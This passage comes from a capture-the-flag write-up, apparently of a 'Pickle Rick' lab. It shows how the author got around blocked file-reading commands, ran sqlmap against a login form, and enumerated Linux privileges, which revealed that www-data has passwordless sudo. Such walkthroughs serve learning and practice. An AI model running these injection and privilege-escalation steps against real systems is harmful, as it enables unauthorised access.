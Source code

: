 ```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```



## Second Ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disabled
1 jerry tear
```



## Third Ingredient

I was having difficulty finding the third ingredient from the file system, as most of my attempts at enumerating the directories returned an empty response. Thus, I decided to further enumerate the webpage.

Upon visiting `/denied.php` ,

We are presented with a message: "_Only the REAL rick can view this page._" This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

### Privilege Escalation&#x20;

**(1) SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```bash
$ sqlmap -u http://<target>:[port] --data "username=random&password=random&sub=Login" --risk ... -- ... --batch
... no signifcant results
```

The database used in the system seems to either not use an SQL-based database, or is simply not vulnerable to a SQL injection attack.

As mentioned before, access to the third ingredient most likely requires a privileged account. Thus, I attempted to escalate my privileges.

**(2) Linux privilege escalation enumeration**

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) # no dangerous groups such as adm

$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL 
    
```
